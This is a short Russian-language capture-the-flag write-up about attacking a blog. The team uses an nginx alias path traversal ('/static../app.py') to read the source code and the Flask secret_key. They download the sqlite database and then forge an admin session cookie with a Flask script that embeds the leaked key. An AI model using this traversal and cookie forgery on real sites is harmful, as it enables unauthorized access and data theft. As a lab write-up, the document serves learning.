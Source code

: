 При помощи dirsearch нашли локейшен /login , попробовали поискать blind sql
 инъекцию - не помогло.

Обратили внимание на подсказку "Blog was compromised, messed out with nginx configuration :-(" - 
значит можно вытянуть исходники.

Погуглили на тему "nginx misconfiguration vulnerability", 
нашли https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/.
В иcходниках главной увидели ссылку на статику, и через
 http://blog.ctf2019.rocks/static../app.py получили secret_key для куки 
 и увидели что авторизация идет через sqlite базенку. Скачали базенку, 
 из таблицы secret вытнянули первый доп.
Вторая подсказка на главной про app2.py, http://blog.ctf2019.rocks/static../app2.py - второй доп.

```python
from flask import Flask, session
app = Flask(__name__)

app.secret_key = "vei9sheithie7eey4yaeChaesh1po0EecheMugh5phee8Cheivohy1ooNailnjnjnjnjn"

@app.route('/')
def index():
    session['username'] = 'admin'
    session['domain'] = 'blog.ctf2019.rocks'
    return "check session"

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=5000, threaded=True)
```

C новой кукой дернули гавную блога и получили основной флаг.
